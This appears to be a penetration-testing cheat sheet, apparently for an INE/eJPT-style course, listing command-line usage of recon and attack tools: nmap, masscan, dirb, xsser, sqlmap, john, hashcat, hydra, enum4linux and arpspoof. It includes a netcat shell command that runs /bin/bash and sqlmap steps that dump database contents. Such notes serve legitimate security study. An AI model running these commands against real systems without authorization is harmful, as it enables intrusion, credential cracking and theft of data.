

# TOOLS

## SUBDOMAIN ENUMERATION

- google (site:)
- dnsdumpster.com
- virustotal.com
- crt.sh
- sublist3r
- amass

### PASSIVE

**Google search**
```
site: TARGET_DOMAIN
```

**dnsdumpster**<br>
Search for TARGET_DOMAIN on https://dnsdumpster.com/


**virustotal**<br>
Search for TARGET_DOMAIN on https://www.virustotal.com/gui/home/search


**crt.sh**<br>
Search for TARGET_DOMAIN on https://crt.sh/


### ACTIVE

**sublist3r**<br>
-d DOMAIN<br.>
-b: enable subbrute module<br>
-v: verbose
```
sublist3r -d TARGET_DOMAIN -b -v
```


**amass**<br>
-d DOMAIN<br>
-ip: print ip address<br>
-o OUTPUT_FILE<br>
-brute: bruteforce after search<br>
-w WORD_FILE
-v: verbose
```
amass enum -d google.com -ip -o amass.txt -brute -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt
```

## NETWORK MAPPING & PORT SCANNING

**fping**<br>
-a: show alive hosts
-g: perform ping sweep
```
fping -a -g IP_RANGE
```
add 2>/dev/null if running on your LAN to supress errors
```
fping -a -g IP_RANGE 2>/dev/null
```


**nmap**<br>
-sn: ping scan<br>
-iL IP_ADDRESS_LIST_FILE<br>
-sL: lit targets to scan<br>
-Pn: no ping scan, only port scan<br>
-Ss: syn scan (default)<br>
-sT: tcp scan<br>
-sU: udp scan<br>
-p PORT<br>
-sV: probe open ports to determine service/version info<br>
-sC: script scan<br>
--script SCRIPT<br>
-O: enable OS detection<br>
-oN OUTPUT_FILE<br>
-A: enable everything
-p-: scan all ports<br>
-T <0-5>: set timing template (5 is fastest)
```
nmap -sn IP_RANGE
```


```
nmap -sL IP_RANGE
```


```
nmap -sC -sV -o nmap.txt IP_RANGE
```



**MASSCAN**<br>
-p PORTS<br>
-Pn: no ping scan, only port scan<br>
--rate RATE (packets/second)<br>
--banners: fingerprint machien<br>
-e INTERFACE (vpn connection only)<br>
--router-ip VPN_IP<br>
-c CONF_FILE<br>
--echo > CONF_FILE<br>
```
masscan -p20-100 -Pn --rate=800 --banners 10.0.2.0/24
```


## WEB ATTACKS

### FINGERPRINTING

**netcat**<br>
-l: listen<br>
-v: verbose<br>
-p PORT (only host machine)<br>
-n: numberic ip only, no dns<br>
-e COMMAND (executes when connection established)

Manual banner grabbing
```
nc TARGET PORT
HEAD / HTTP/1.0
```


Other http verbs: GET, HEAD, OPTIONS, POST, PUT, DELETE

Server/Client
```
nc -lnvp PORT > data.txt
```
```
nc -v IP PORT < data.txt
```

Reverse shell
```
nc -lnvp PORT -e /bin/bash
```
```
nc -v IP PORT
```

**openssl**<br>
-connect: IP:PORT<br>
s_client: create ssl client
```
openssl s_client -connect IP:PORT
```

### WEB DIRECTORY ENUMERATION

**dirbuster**<br>
-w WORDLIST<br>
-a USER_AGENT<br>
-p PROXY_IP (use with burp suite)<br>
-c COOKIE<br>
-u USERNAME:PASSWORD<br>
-H HEADER<br>
-r: no recursive scan<br>
-s: silent<br>
-X FILE_EXTENSIONS<br>
-x EXTENSIONS_FILE<br>
-o OUTPUT_FILE
```
dirb URL -w /usr/share/wordlists
```

### XSS

**xsser**<br>
--url URL<br>
-p POST_DATA

GET request<br>
replace target parameter with XSS
```
xsser --url "http://URL.com?p1=XSS&button=Submit"
```

POST request<br>
replace target parameter with XSS
```
xsser --url 'http://URL.com' -p 'p1=XSS&p2=data'
```

### SQL INJECTION

**sqlmap**<br>
-u URL<br>
--cookie COOKIE<br>
-p PARAMETER<br>
--dbs: list databases<br>
-D DATABASE<br>
--tables: list tables<br>
-T TABLE<br>
--columns: list columns<br>
-C COLUMN<br>
--dump: show data

Check for SQLi vulnerability
```
sqlmap -u "http://URL?p1=data&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31;" -p PARAMETER
```

Exploit
```
sqlmap -u "http://URL?p1=data&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31;" -p PARAMETER --dbs

sqlmap -u "http://URL?p1=data&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31;" -p PARAMETER --dbs -D DATABASE --tables

sqlmap -u "http://URL?p1=data&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31;" -p PARAMETER --dbs -D DATABASE --tables -T TABLE --columns

sqlmap -u "http://URL?p1=data&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31;" -p PARAMETER --dbs -D DATABASE --tables -T TABLE -C COLUMNS --dump
```

## SYSTEM ATTACKS

### HASH CRACKING

**john**<br>
--wordlist WORDLIST
```
john HASH --wordlist=WORDLIST
```

**hashcat**<br>
-a ATTACK_MODE<br>
-m HASH_TYPE<br>
-r RULES (from https://hashcat.net/wiki/doku.php?id=rule_based_attack)
```
hashcat -a0 -m1500 -r RULES.txt HASH WORDLIST
```

Example RULES.txt
```
l
u
$1
$2
$3
$4
```

With mask for only passwords that have 3 lowercase letters followed by 2 numbers (from https://hashcat.net/wiki/doku.php?id=mask_attack)
```
hashcat -a3 -m1500 HASH ?l?l?l?d?d
```

### LOGIN BRUTEFORCING

**hydra**<br>
-l USERNAME<br>
-L USERNAME_FILE<br>
-p PASSWORD<br>
-P PASSSWORD_FILE<br>
-t THREADS<br>
http-post-form URL (^USER^ and ^PWD^ is where hydra will insert the values given)
```
hydra -l USERNAME -P PASSWORD_FILE PROTOCOL://IP http-post-form "/login.php:username=^USER^&password=^PWD^:Failed login" -t 30
```

### NULL SESSION ATTACK

**nmblookup**<br>
-A: lookup by ip

Display info about linux machine
```
nmblookup -A IP
```

**smbclient**<br>
-L: list shares<br>
-N: no password
```
smbclient -L //IP -N
```

To access share
```
smbclient //IP/SHARE -N
```

**enum4linux**<br>
-S: shares<br>
-U: users<br>
-P: password policy<br>
-A: fully enumerate<br>
-s SHARE_LIST (to bruteforce share discovery)
```
enum4linux -S demo.ine.local
enum4linux -U demo.ine.local
enum4linux -P demo.ine.local
```

**nmap**<br>
```
nmap IP --script=smb-enum-shares
nmap IP --script=smb-enum-users
```

### ARP POISONING

**arpspoof**<br>
-i INTERFACE<br>
-t TARGET_IP (machine to trick)<br>
-r HOST_IP (machine to impersonate)
```
arpspoof -i INTERFACE -t TARGET_IP -r HOST_IP
```